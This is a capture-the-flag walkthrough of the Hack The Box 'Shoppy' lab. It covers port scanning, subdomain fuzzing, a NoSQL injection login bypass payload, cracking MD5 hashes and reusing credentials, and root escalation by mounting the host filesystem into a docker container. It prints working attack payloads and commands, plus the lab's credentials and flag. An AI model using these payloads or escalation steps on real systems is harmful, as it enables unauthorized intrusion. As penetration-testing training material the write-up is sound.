





# Recon

First, we start with all-tcp scan:

```sh
> nmap -p- --min-rate 10000 -oA scans/nmap-alltcp 10.10.11.180
PORT      STATE    SERVICE
22/tcp    open     ssh
80/tcp    open     http
8232/tcp  filtered hncp-dtls-port
9093/tcp  open     copycat
18856/tcp filtered unknown
24821/tcp filtered unknown
34634/tcp filtered unknown
45794/tcp filtered unknown
```

We can see, that some ports are apparently behind firewall, while some
of them are open. Let's get to know something more about all of them:

```sh
> nmap -p 22,80,8232,9093,18856,24821,34634,45794 -sCV -oA scans/nmap-tcpdetail 10.10.11.180

PORT      STATE  SERVICE        VERSION
22/tcp    open   ssh            OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey:
|   3072 9e5e8351d99f89ea471a12eb81f922c0 (RSA)
|   256 5857eeeb0650037c8463d7a3415b1ad5 (ECDSA)
|_  256 3e9d0a4290443860b3b62ce9bd9a6754 (ED25519)
80/tcp    open   http           nginx 1.23.1
|_http-title: Did not follow redirect to http://shoppy.htb
|_http-server-header: nginx/1.23.1
8232/tcp  closed hncp-dtls-port
9093/tcp  open   copycat?
| fingerprint-strings:
|   GenericLines:
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest, HTTPOptions:
|     HTTP/1.0 200 OK
|     Content-Type: text/plain; version=0.0.4; charset=utf-8
|     Date: Sat, 06 May 2023 08:35:50 GMT
|     HELP go_gc_cycles_automatic_gc_cycles_total Count of completed GC cycles generated by the Go runtime.
|     TYPE go_gc_cycles_automatic_gc_cycles_total counter
|     go_gc_cycles_automatic_gc_cycles_total 24
|     HELP go_gc_cycles_forced_gc_cycles_total Count of completed GC cycles forced by the application.
|     TYPE go_gc_cycles_forced_gc_cycles_total counter
|     go_gc_cycles_forced_gc_cycles_total 0
|     HELP go_gc_cycles_total_gc_cycles_total Count of all completed GC cycles.
|     TYPE go_gc_cycles_total_gc_cycles_total counter
|     go_gc_cycles_total_gc_cycles_total 24
|     HELP go_gc_duration_seconds A summary of the pause duration of garbage collection cycles.
|     TYPE go_gc_duration_seconds summary
|     go_gc_duration_seconds{quantile="0"} 1.7844e-05
|     go_gc_duration_seconds{quantile="0.25"} 8.6212e-05
|_    go_gc_d
18856/tcp closed unknown
24821/tcp closed unknown
34634/tcp closed unknown
45794/tcp closed unknown
```

Now, let's see site that apparently is hosted on standard http port, 80.  



There is also admin login page, but common credentials like admin:password and
admin:admin did not bring much success:  



Now, it's time for subdomain fuzzing.
First, we check default server response length for failed subdomain check:

```bash
> wfuzz -u http://10.10.11.180 -H "Host: FUZZ.shoppy.htb"\
    -w /opt/useful/SecLists/Discovery/DNS/subdomains-top1million-5000.txt

=====================================================================
ID           Response   Lines    Word       Chars       Payl
                                                        oad
=====================================================================

000000001:   301        7 L      11 W       169 Ch      "www "
000000003:   301        7 L      11 W       169 Ch      "ftp "
000000002:   301        7 L      11 W       169 Ch      "mail"
000000004:   301        7 L      11 W       169 Ch      "localhost"
000000005:   301        7 L      11 W       169 Ch      "web mail"
000000007:   301        7 L      11 W       169 Ch      "web disk"

...SNIP...
```
As we can see, it's 169. Let's apply a filter for that length, and
try again.

```bash
> wfuzz -u http://10.10.11.180 -H "Host: FUZZ.shoppy.htb"\
    -w /opt/useful/SecLists/Discovery/DNS/subdomains-top1million-5000.txt --hh 169

=====================================================================
ID           Response   Lines    Word       Chars       Payload
=====================================================================


Total time: 0
Processed Requests: 4989
Filtered Requests: 4989
Requests/sec.: 0
```

Sadly, it did not yield any results. Let's try with larger list:

```bash
> wfuzz -u http://10.10.11.180 -H "Host: FUZZ.shoppy.htb"\
    -w /opt/useful/SecLists/Discovery/DNS/subdomains-top1million-110000.txt --hh 169

=====================================================================
ID           Response   Lines    Word       Chars       Payload
=====================================================================


Total time: 700.4757
Processed Requests: 114441
Filtered Requests: 114441
Requests/sec.: 163.3760
```

Let's try again with another one:

```bash
> wfuzz -u http://10.10.11.180 -H "Host: FUZZ.shoppy.htb"\
    -w /opt/useful/SecLists/Discovery/DNS/bitquark-subdomains-top100000.txt --hh 169

=====================================================================
ID           Response   Lines    Word       Chars       Payload
=====================================================================

000047340:   200        0 L      141 W      3122 Ch     "mattermost"
```

Now, we add mattermost.shoppy.htb to /etc/hosts file.
If we visit mattermost.shoppy.htb in browser, it redirects to login page:  


# Shoppy Login Form Bypass

After trying to pass ' symbol inside credentials at shoppy.htb/login,
server responds with "504 Gateway Timeout" after few seconds of wait.

It might indicate, that there is a problem with parsing our data,
maybe it isn't properly sanitized. 

Standard SQL injection payloads, like:

```sql
admin' or '1' = '1
```

Resulted in the same error. As it's ' symbol that seems to distrupt the
server, we should also try NoSQL injections.

Changing content type to application/json and applying following payload
didn't work:

```json
{
    "username":"admin",
    "password":{
        "$ne":"test"
    }
}
```

But following NoSQL injection did, granting us admin access to site:

```
...SNIP...
Content-Type: application/x-www-form-urlencoded
...SNIP...

username=admin' || 'a' = 'a&password=test
```

Burp will automatically encode it, but if using different tool,
remember to urlencode it yourself.

Inside admin panel, there is a search field that returns the information
of searched user. To get all the users, we use the same NoSQL injection 
as we did on login form, and it yields following results:  



# Cracking Password Hashes

Inserting found MD5 hashes into crackstation gives exact match
for password of user "josh":  



With found credentials, we can log into Mattermost.

# Jaeger Shell

In one of josh's texts, we can see creds of his boss:  


We can use them to log in via ssh.

# Deploy Shell

We can see that user jaeger can run one program as other user, deploy:

```sh
> sudo -l

(deploy) /home/deploy/password-manager
```

After reverse engineering and running the binary with acquired cleartext
password (Sample), we get deploy credentials:

```sh
> sudo -u deploy ./password-manager

[sudo] password for jaeger:
Welcome to Josh password manager!
Please enter your master password: Sample
Access granted! Here is creds !
Deploy Creds :
username: deploy
password: Deploying@pp! 
```

# Root Shell

After logging in as deploy, we can see that he is in "docker" group:

```sh
> groups
deploy docker
```

We can use that to create new container that will have entire host 
filesystem mounted under /mnt, easily granting us root access.

First, we run following on our attack machine:

```sh
> sudo docker pull alpine
Using default tag: latest
latest: Pulling from library/alpine
f56be85fc22e: Pull complete
Digest: sha256:124c7d2707904eea7431fffe91522a01e5a861a624ee31d03372cc1d138a3126
Status: Downloaded newer image for alpine:latest
docker.io/library/alpine:latest

> sudo docker images
REPOSITORY   TAG       IMAGE ID       CREATED       SIZE
alpine       latest    9ed4aefc74f6   5 weeks ago   7.04MB

> sudo docker save --output alpine.tar 9ed4aefc74f6

> sudo chmod 777 alpine.tar
> sshpass -p 'Deploying@pp!' scp ./alpine.tar deploy@shoppy.htb:/home/deploy/
> rm alpine.tar
```

Then, on target machine:

```sh
> docker load --input alpine.tar
f1417ff83b31: Loading layer  7.338MB/7.338MB
Loaded image ID: sha256:9ed4aefc74f6792b5a804d1d146fe4b4a2299147b0f50eaf2b08435d7b38c27e

> docker images
REPOSITORY   TAG       IMAGE ID       CREATED        SIZE
<none>       <none>    9ed4aefc74f6   5 weeks ago    7.05MB
alpine       latest    d7d3d98c851f   9 months ago   5.53MB

> docker run -v /:/mnt -it d7d3d98c851f
/ # cd /mnt/root
/mnt/root # ls
root.txt
/mnt/root # cat root.txt
36e0afbc6f03a7bd81e5880331de27b9
/mnt/root #
```
